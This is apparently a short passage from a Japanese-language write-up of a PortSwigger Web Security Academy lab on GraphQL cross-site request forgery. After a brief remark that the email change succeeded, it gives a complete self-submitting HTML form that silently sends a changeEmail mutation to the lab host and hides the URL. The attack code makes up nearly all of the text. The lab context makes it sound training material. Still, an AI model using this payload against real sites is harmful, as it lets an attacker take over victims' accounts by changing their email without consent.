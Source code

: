 ![](./images/README_231026_195413.png)

無事変更ができたので勝利です。

### Exploit

```html
<html>
  <body>
    <form action="https://0aa000b9048230e88080f3a2001c0084.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;email&#125;&#125;" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;ac&#64;ex&#46;com&quot;&#125;&#125;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
 document.forms[0].submit(); 
document.forms[0].submit();
    </script>
  </body>
</html>
```





